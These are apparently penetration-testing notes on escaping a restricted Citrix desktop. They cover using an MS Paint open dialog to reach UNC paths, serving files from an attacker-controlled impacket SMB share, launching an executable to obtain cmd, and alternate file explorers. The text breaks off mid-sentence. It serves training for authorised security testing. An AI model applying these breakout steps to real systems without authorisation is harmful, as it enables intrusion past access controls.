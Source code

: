 ## Citrix Breakout
Lockdown measures implemented in most companies to minimize potential impact of malicious staff members and compromised accounts.
Becomes a restricted environment, but possible to break out.

*Basic Methodology for break-out:*
1. Gain access to a `Dialog Box`.
2. Exploit the Dialog Box to achieve `command execution`.
3. `Escalate privileges` to gain higher levels of access.

in a highly restrictive `lock-down` environment, any attempts to locate "cmd.exe" or "powershell.exe" in the start menu will yield no results. Similarly, accessing `C:\Windows\system32` through File Explorer will trigger an error

Acquiring access to the "CMD/Command Prompt" in such a restricted environment represents a notable achievement

### Bypassing Path Restrictions
It is possible to utilize dialogue boxes as a means to bypass restrictions imposed by group policy. Once a Windows dialog box is obtained, the next step often involves navigating to a folder path containing native executables that offer interactive console access (i.e.: cmd.exe)

There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc. We will cover using `MS Paint` as an example for this section.

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to `All Files` and upon hitting enter we gain access to the desired directory.

```
\\127.0.0.1\c$\users\pmorgan

PUT THIS IN FILE NAME
```
### Accessing SMB share from restricted environment.
However, by utilizing the UNC path within the Windows dialog box, it's possible to circumvent this limitation. This approach can be employed to facilitate file transfers from a different computer.

```
impacket-smbserver . share
```
Back in citrix, open paint and go to the:
```
\\IP\share
```
We may then be able to right click on executable and launch them.
*pwn.exe* can to open a cmd
We can then use the obtained cmd access to copy files from SMB share to  Desktop directory.

### Alternate Explorer
In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like `Q-Dir` or `Explorer++` can be employed as a workaround. These
[Explorer++](https://explorerplusplus.com/) is highly recommended
